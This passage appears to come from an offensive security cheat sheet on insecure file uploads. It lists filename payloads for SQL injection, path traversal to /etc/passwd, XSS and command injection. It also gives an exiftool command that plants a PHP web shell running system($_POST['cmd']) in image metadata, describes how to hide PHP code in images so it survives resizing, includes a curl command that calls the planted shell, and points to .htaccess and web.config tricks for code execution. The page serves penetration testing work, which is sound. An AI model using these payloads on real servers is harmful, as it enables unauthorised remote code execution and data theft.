 - Time-Based SQLi Payloads: e.g. `poc.js'(select*from(select(sleep(20)))a)+'.extension`
- LFI/Path Traversal Payloads:  e.g. `image.png../../../../../../../etc/passwd` 
- XSS Payloads e.g. `'"><img src=x onerror=alert(document.domain)>.extension`
- File Traversal e.g. `../../../tmp/lol.png`
- Command Injection e.g. `; sleep 10;`

Also you upload:
- HTML/SVG files to trigger an XSS
- EICAR file to check the presence of an antivirus

### Picture Compression

Create valid pictures hosting PHP code. Upload the picture and use a **Local File Inclusion** to execute the code. The shell can be called with the following command : `curl 'http://localhost/test.php?0=system' --data "1='ls'"`.

- Picture Metadata, hide the payload inside a comment tag in the metadata.
- Picture Resize, hide the payload within the compression algorithm in order to bypass a resize. Also defeating `getimagesize()` and `imagecreatefromgif()`.
    - [JPG](https://virtualabs.fr/Nasty-bulletproof-Jpegs-l): use createBulletproofJPG.py
    - [PNG](https://blog.isec.pl/injection-points-in-popular-image-formats/): use createPNGwithPLTE.php
    - [GIF](https://blog.isec.pl/injection-points-in-popular-image-formats/): use createGIFwithGlobalColorTable.php


### Picture with custom metadata

Create a custom picture and insert exif tag with `exiftool`. A list of multiple exif tags can be found at [exiv2.org](https://exiv2.org/tags.html)

```ps1
convert -size 110x110 xc:white payload.jpg
exiftool -Copyright="PayloadsAllTheThings" -Artist="Pentest" -ImageUniqueID="Example" payload.jpg
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
```

### Configuration Files

If you are trying to upload files to a :
- PHP server, take a look at the [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess) trick to execute code.
- ASP server, take a look at the [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config) trick to execute code.

Configuration files examples
- [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess)
- [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config)
- [httpd.conf](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Busybox%20httpd.conf)
- [\_\_init\_\_.py](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Python%20__init__.py)
